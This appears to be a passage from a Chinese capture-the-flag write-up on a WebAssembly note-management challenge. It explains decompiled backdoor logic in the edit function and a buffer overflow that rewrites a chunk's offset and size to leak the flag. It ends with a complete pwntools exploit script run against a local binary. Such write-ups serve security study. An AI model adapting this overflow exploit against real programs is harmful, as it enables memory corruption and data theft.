用字符串定位时发现没有引用，后来发现是通过偏移来实现的——第 3 个参数原来是 .rodata.wasm 段内的偏移

```bash
 print(v6, v6, 0x46FLL, 0LL);                // size
 .rodata.wasm:000000000001B46F aSize           db 'size > ',0
```

然后结合字符串、上下文和动态调试，就能猜出所有函数的作用


大致来说，每次进入一个函数时，都会先模拟分配栈空间，然后使用其中的变量

大致布局如下

可以看到 chunk_struct 0 的 content_offset 在 chunk_struct 1 的上方


结合 edit 中的后门：当 len == 0x345231 时会写入 48 字节，但只能写一次，所以要利用这一次机会拿到 flag

```c
  getinput(a1, a1, 0LL, v20 - 48, 31);
    len = set_to_chunk(a1, a1, v20 - 48);
    *(base + v4 + 36) = len;
    if ( len == 0x345231 )
    {
      if ( *(base + 4016) == 1 )
      {
        v14 = *(base + v4 + 44);
        *(base + v4 + 4) = *(base + v4 + 40);
        *(base + v4) = v14;
        print(a1, a1, 0x4DELL, (v20 - 96));     // content for note[%lu] with offset [%lu] >
        save(a1, a1, *(v19 + 40) + *(base + *(base + (*(base + *(v19 + 92) + 4) + 4 * *(base + v4 + 44)))), 48);
        *(base + 4016) = 0;
        goto LABEL_15;
      }
      v13 = base + v4;
    }
```
由于上面的缓冲区位于 chunk_struct 2 的上方，结合溢出，我们可以把 `content_offset` 改成 flag 的偏移，然后 show 就能泄露 flag。当然长度不够，把 size 改大就行

发现即使开启了随机化，偏移也不会变，所以直接改成 flag 的偏移就行


## exp

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
p = process('wasmtime run --env FLAG="flag{zhiyinnitaimei}" --disable-cache --allow-precompiled ./wtoa'.split(' '))

gdb.attach(p)
pause()

p.sendlineafter(b"Choice > ",str("A")) 
p.sendlineafter(b"size > ",str("8"))
p.sendlineafter(b"content for note[0] > ",8*str("a"))

p.sendlineafter(b"Choice > ",str("A")) 
p.sendlineafter(b"size > ",str("8"))
p.sendlineafter(b"content for note[1] > ",8*str("b"))


p.sendlineafter(b"Choice > ",str("E")) 
p.sendlineafter(b"index > ",str("0"))
p.sendlineafter(b"offset > ",str("0"))  
p.sendlineafter(b"length > ",str("3428913"))
p.sendlineafter(b"content for note[0] with offset [0] > ",b"a"*32+p64(0x501b40)+p64(0x20))


p.sendlineafter(b"Choice > ",str("S")) 
p.sendlineafter(b"index > ",str("1"))
p.sendlineafter(b"offset > ",str("0"))  
p.sendlineafter(b"length > ",str("32"))

p.recvuntil(b"content for note[1] with offset [0] > ")
flag=p.recv(timeout=2)
print(flag)
p.interactive()

```


